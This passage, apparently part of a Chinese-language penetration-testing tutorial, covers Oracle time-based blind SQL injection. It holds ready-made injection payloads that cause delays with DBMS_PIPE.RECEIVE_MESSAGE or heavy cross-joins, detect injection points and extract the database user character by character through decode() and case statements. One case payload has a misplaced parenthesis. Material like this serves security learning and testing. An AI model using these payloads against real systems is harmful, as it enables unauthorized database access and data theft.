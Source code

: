 
### **五、时间盲注**

通过页面响应时间的不同，判断 SQL 语句是否被执行。一般使用函数或者高耗时的 SQL 操作初步判断是否存在时间盲注，接着配合 decode()、case 语句、if 语句等方式爆破数据。

**制造时延**

函数：

DBMS_PIPE.RECEIVE_MESSAGE()

> DBMS_PIPE.RECEIVE_MESSAGE('任意值', 延迟时间)

高耗时 SQL 操作：

select count(\*) from all_objects

select count(\*) from ALL_USERS T1, ALL_USERS T2, ALL_USERS T3, ALL_USERS T4, ALL_USERS T5

**判断注入点**

```
' and 1=(DBMS_PIPE.RECEIVE_MESSAGE('a',10)) and '1'='1

' and 1=(select count(*) from all_objects) and '1'='1

' and 1=(select count(*) from ALL_USERS T1, ALL_USERS T2, ALL_USERS T3, ALL_USERS T4, ALL_USERS T5) and '1'='1

如果返回包发生时延，则可能存在注入点。
```

**获取数据**

```
配合 decode()

' and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) and '1'='1

如果发生时延，则 user 的第一位是 'S'。
```
```
配合 case

' and 1=(case when (ASCII(substr(select user from dual),1,1)<96) then (select count(*) from ALL_USERS T1, ALL_USERS T2, ALL_USERS T3, ALL_USERS T4, ALL_USERS T5) else 1 end) and '1'='1'

如果 user 的第一位的 ASCII 码的值小于96，则产生时延。使用 ASCII() 时需要使用二分法逐步猜解这一位的字符的 ASCII 码值。
```